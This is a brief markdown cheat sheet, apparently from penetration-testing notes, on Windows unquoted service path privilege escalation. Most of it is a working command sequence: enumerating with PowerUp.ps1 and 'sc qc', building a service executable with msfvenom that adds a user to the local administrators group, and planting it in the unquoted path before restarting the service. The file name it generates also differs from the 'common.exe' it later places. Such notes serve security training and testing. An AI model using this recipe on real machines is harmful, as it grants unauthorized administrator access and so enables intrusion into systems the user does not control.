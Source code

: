 # Unquoted Service Path Escalation

* Run Powerup.ps1 (Example unquoted path -> C:\I\AM\VULNERABLE IT DOESN'T HAS "" Like "C:\I\AM\VULNERABLE" )
* sc qc Service
* If you notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

## kali
* msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o The_same_name_as_path_or_executable_on_windows.exe
* Copy the generated file, The_same_name_as_path_or_executable_on_windows.exe, to Windows

## Windows
* Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
* Open command prompt and type: sc start service
* net localgroup administrators

